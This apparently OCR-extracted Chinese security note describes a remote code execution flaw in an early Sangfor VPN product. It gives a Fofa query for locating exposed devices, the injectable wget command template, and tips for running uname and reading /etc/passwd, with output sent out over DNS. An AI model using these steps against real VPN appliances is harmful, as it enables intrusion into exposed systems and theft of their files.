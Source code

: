 深信服VPN远程代码执行
深信服 VPN 某个特定产品存在远程代码执行, 2019 攻防演练使用过
 
 Fofa
header="Set-Cookie: TWFID="
wget -t %d -T %d --spider %s

1.该版本深信服VPN属于相对早期的版本, 大概2008年左右, 但目前还有761个ip开放在公网
2.该版本较低, whomai不存在, 可以使用 uname, 这里没有空格可dns传出来
3.去除空格也简单 cat /etc/passwd | tr " \n" "+|"
